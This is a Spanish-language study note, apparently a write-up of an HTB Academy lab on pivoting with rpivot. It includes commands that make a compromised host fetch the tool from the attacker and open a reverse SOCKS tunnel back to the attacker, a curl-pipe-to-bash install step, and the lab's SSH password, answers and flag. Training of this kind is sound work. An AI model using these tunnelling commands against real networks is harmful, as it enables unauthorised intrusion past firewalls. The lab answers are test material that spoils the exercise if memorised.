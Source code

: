 Rpivot permite que una máquina situada dentro de una red corporativa (por ejemplo la que tiene la IP privada 172.16.5.135) haga una conexión saliente a un servidor público al que sí se puede acceder desde Internet. Esa conexión se usa para exponer un puerto local de la máquina interna hacia el servidor público.
Así pues, desde Internet, accedo al puerto del servidor público y, por rpivot, ese tráfico llega al servicio que corre en la máquina interna.

Es como un túnel inverso o un “reverse SOCKS”: el cliente dentro del firewall abre el túnel hacia fuera, el servidor público escucha conexiones entrantes y las reenvía al cliente.
![[Pasted image 20251023162730.png]]

- PIVOT HOST:
	  10.129.202.64
- ATACANTE:
	  10.10.14.18
	  172.16.5.129
- VÍCTIMA:
	  172.16.5.135
## Clonando el recurso "rpivot"

Podemos iniciar nuestro servidor proxy SOCKS rpivot usando el siguiente comando para permitir que el cliente se conecte en el puerto 9999 y escuche en el puerto 9050 las conexiones proxy pivot.

```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
Polika4RM@htb[/htb]$ sudo apt-get install python2.7
```

Si la instalación de Python da error, se deberá descargar con:

```
Polika4RM@htb[/htb]$ sudo apt-get install python2.7
Polika4RM@htb[/htb]$ sudo apt-get install python2
```

```shell-session
Polika4RM@htb[/htb]$ curl https://pyenv.run | bash
Polika4RM@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
Polika4RM@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
Polika4RM@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
Polika4RM@htb[/htb]$ source ~/.bashrc
Polika4RM@htb[/htb]$ pyenv install 2.7
Polika4RM@htb[/htb]$ pyenv shell 2.7
```

Me descargo dos archivos del repositorio:
- server.py:
	  A ejecutar desde la máquina atacante.
- client.py:
	  Lo ejecutaré desde la máquina de dentro de la red.

## Ejecutando server.py desde el atacante
Podemos iniciar nuestro servidor proxy SOCKS rpivot para conectarnos a nuestro cliente en el servidor Ubuntu comprometido usando server.py.
Esta máquina atacante escuchará conexiones entrantes que tendrán origen el servidor Ubuntu. 
```shell-session
Polika4RM@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

En server-ip, este campo es la dirección IP en la que quiero que escuche. Si pongo 0.0.0.0 escuchará en todas las interfaces
## Transfiriendo rpivot al Target
Antes de ejecutar client.py, necesitamos transferir rpivot al destino. Podemos hacerlo con este comando SCP:
```shell-session
Polika4RM@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

## Ejecutando client.py desde el Pivot Target

Ejecutaremos:
```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

El server-ip 10.10.14.18 es la IP de la máquina atacante.
## Confirmando la conexión
En el atacante, veré: 
```shell-session
New connection from host 10.129.202.64, source port 35226
```

----

Ahora configuraremos proxychains para que pivote sobre nuestro servidor local en 127.0.0.1:9050 en nuestro host de ataque, que fue iniciado inicialmente por el servidor Python.

```
Polika4RM@htb[/htb]$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

Finalmente, deberíamos poder acceder al servidor web en nuestro servidor, que está alojado en la red interna 172.16.5.0/23 en 172.16.5.135:80, usando proxychains y Firefox.

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

Al igual que con el proxy pivote mencionado anteriormente, podrían darse situaciones en las que no podamos migrar directamente a un servidor externo (host de ataque) en la nube. Algunas organizaciones tienen un proxy HTTP con autenticación NTLM configurado con el controlador de dominio. En tales casos, podemos proporcionar una opción adicional de autenticación NTLM a rpivot para que se autentique a través del proxy NTLM, proporcionando un nombre de usuario y una contraseña. En estos casos, podríamos usar el archivo client.py de rpivot de la siguiente manera:

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
---

**Target:**
**1. From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.**
Respuesta: Attack Host

**2. From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.**
Respuesta: Pivot Host


**SSH to 10.129.140.64 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"**
**3. Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.**

Me descargo:
```
git clone https://github.com/klsecservices/rpivot.git
```

```
Polika4RM@htb[/htb]$ sudo apt-get install python2.7
Polika4RM@htb[/htb]$ sudo apt-get install python2
```

```shell-session
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```


Desde el atacante ejecuto el server.py:
```
┌──(polika4r㉿kali)-[~/rpivot]
└─$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Comparto la carpeta rpivot:
```
┌──(polika4r㉿kali)-[~/rpivot]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.140.64 - - [23/Oct/2025 17:00:26] "GET /client.py HTTP/1.1" 200 -

```

Y desde el target pivot recibo la carpeta (de forma recursiva), con:
```
ubuntu@WEB01:~$ wget -r http://10.10.14.43:8000/rpivot
```

```
ubuntu@WEB01:~/10.10.14.43:8000/rpivot$ python2.7 client.py --server-ip 10.10.14.43 --server-port 9999
Backconnecting to server 10.10.14.43 port 9999

```

En el atacante aparecerá:
```
┌──(polika4r㉿kali)-[~/rpivot]
└─$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
New connection from host 10.129.140.64, source port 39978
```

Me aseguro que el proxychains está bien seteado:
```
┌──(polika4r㉿kali)-[~]
└─$ tail -4 /etc/proxychains4.conf                      
# meanwile
# defaults set to "tor"
```

En otra sesión de SHH aparte, ejecuto para ver la red interna:
```
ubuntu@WEB01:~$ ip a
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:14:19 brd ff:ff:ff:ff:ff:ff
    inet 172.16.5.129/23 brd 172.16.5.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:1419/64 scope link 
       valid_lft forever preferred_lft forever

```

Finalmente ejecuto:
```
proxychains curl -v 172.16.5.135
```

Me descargo el contenido del archivo y lo copio en:
https://htmledit.squarefree.com/

Y al visualizar la página veo la flag: "I_L0v3_Pr0xy_Ch@ins"

